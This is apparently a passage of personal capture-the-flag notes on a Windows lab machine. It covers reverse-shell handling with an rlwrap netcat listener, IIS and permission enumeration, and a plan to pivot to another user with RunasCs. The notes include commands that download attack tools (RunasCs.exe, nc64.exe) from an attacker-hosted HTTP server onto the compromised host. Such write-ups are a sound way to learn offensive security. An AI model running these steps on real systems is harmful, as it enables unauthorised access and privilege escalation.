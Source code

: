 ![[Pasted image 20250115202719.png]]
Run `whoami /all` to check for SeImpersonatePrivilege because if we do, a potato style attack would work. 

(We don't have it)

![[Pasted image 20250115202825.png]]

Cannot up arrow in this reverse shell. 

![[Pasted image 20250115203013.png]]

Going to kill shell and re-run netcat this way:

`rlwrap nc -lvnp 9001`

![[Pasted image 20250115203112.png]]
Notice in C:\ that there's `inetpub` and that port 8000 is listening from a `netstat -ano` enumeration. 

This means that IIS may be installed

Verifying there may be a web server with 

`curl http://localhost:8000`

![[Pasted image 20250115203512.png]]
`cd inetpub` directory to see if we can write to anything. 

Our current user `svc_apache` doesn't seem to be able to write to anything. 

Run `icacls development` and notice C.Bum can write to this directory

![[Pasted image 20250115203845.png]]

Need to use #RunAsCs tool to switch from `svc_apache` user to `c.bum`

GitHub: https://github.com/antonioCoco/RunasCs

Releases: https://github.com/antonioCoco/RunasCs/releases

Executable: https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip

Download the `RunasCs.zip` and unzip locally. Start #pythonhttpserver 

`python3 -m http.server`

`cd /programdata` on reverse shell. 

curl the `RunasCs.exe` file 

`curl http://10.10.14.8:8000/RunasCs.exe -o RunasCs.exe`

![[Pasted image 20250115204607.png]]

Also going to bring nc64.exe here. May not have needed netcat.

`curl http://10.10.14.8:8000/nc64.exe -o nc64.exe`
